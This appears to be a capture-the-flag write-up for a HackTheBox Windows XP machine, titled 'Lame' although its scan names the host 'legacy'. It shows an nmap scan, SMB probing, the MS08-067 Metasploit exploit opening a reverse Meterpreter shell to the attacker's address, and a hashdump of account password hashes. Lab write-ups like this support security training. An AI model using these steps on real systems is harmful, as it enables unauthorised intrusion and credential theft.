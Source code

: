 # Lame | HackTheBox

### 1. Scan
```bash
─[us-dedivip-1]─[10.10.14.32]─[htb-jib1337@htb-oowkje0uqt]─[~]
└──╼ [★]$ sudo nmap -A -p- -T4 10.129.44.176
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-20 02:15 UTC
Nmap scan report for 10.129.44.176
Host is up (0.21s latency).
Not shown: 65532 filtered ports
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Device type: general purpose|specialized
Running (JUST GUESSING): Microsoft Windows XP|2003|2000|2008 (94%), General Dynamics embedded (88%)
OS CPE: cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_server_2003::sp1 cpe:/o:microsoft:windows_server_2003::sp2 cpe:/o:microsoft:windows_2000::sp4 cpe:/o:microsoft:windows_server_2008::sp2
Aggressive OS guesses: Microsoft Windows XP SP3 (94%), Microsoft Windows Server 2003 SP1 or SP2 (92%), Microsoft Windows XP (92%), Microsoft Windows Server 2003 SP2 (92%), Microsoft Windows 2003 SP2 (91%), Microsoft Windows 2000 SP4 (91%), Microsoft Windows XP SP2 or Windows Server 2003 (91%), Microsoft Windows Server 2003 (90%), Microsoft Windows XP Professional SP3 (90%), Microsoft Windows XP SP2 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: 5d01h00m53s, deviation: 1h24m50s, median: 5d00h00m53s
|_nbstat: NetBIOS name: nil, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:9f:15 (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2020-11-25T06:20:34+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

TRACEROUTE (using port 3389/tcp)
HOP RTT       ADDRESS
1   218.21 ms 10.10.14.1
2   218.71 ms 10.129.44.176

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 280.97 seconds
```
The machine is most likely running some variety of Windows XP (Nmap reckons SP3) with SMB.

### 3. Look at SMB
Firsty, check out the SMB share. In order to connect I have to modify the `/etc/samba/smb.conf` file and add the line `client min protocol = NT1` under global.
```bash
─[us-dedivip-1]─[10.10.14.32]─[htb-jib1337@htb-oowkje0uqt]─[~]
└──╼ [★]$ smbclient -L \\\\10.129.44.176 --user anonymous
Enter WORKGROUP\anonymous's password: 
session setup failed: NT_STATUS_LOGON_FAILURE
```
Anonymous login is not possible.
  
Next I do research for previous vulnerabilties associated with Windows XP SMB. Any exploit would need to be remote and unauthenticated, which is very severe. MS08-067 was disclosed in 2008 and matches these parameters: https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi/

### 4. Get a shell as system
I can test the exploit from within metasploit.
```bash
msf5 exploit(windows/smb/ms08_067_netapi) > options

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS   10.129.44.176    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting


msf5 exploit(windows/smb/ms08_067_netapi) > run

[*] Started reverse TCP handler on 10.10.14.32:4444 
[*] 10.129.44.176:445 - Automatically detecting the target...
[*] 10.129.44.176:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.129.44.176:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.129.44.176:445 - Attempting to trigger the vulnerability...
[*] Sending stage (176195 bytes) to 10.129.44.176
[*] Meterpreter session 1 opened (10.10.14.32:4444 -> 10.129.44.176:1053) at 2020-11-20 02:51:16 +0000

meterpreter > hashdump
Administrator:500:b47234f31e261b47587db580d0d5f393:b1e8bd81ee9a6679befb976c0b9b6827:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:0ca071c2a387b648559a926bfe39f8d7:332e3bd65dbe0af563383faff76c6dc5:::
john:1003:dc6e5a1d0d4929c2969213afe9351474:54ee9a60735ab539438797574a9487ad:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:f2b8398cafc7174be746a74a3a7a3823:::

meterpreter > shell
Process 356 created.
Channel 1 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```
Through this exploit I recieve a shell as system on the machine.
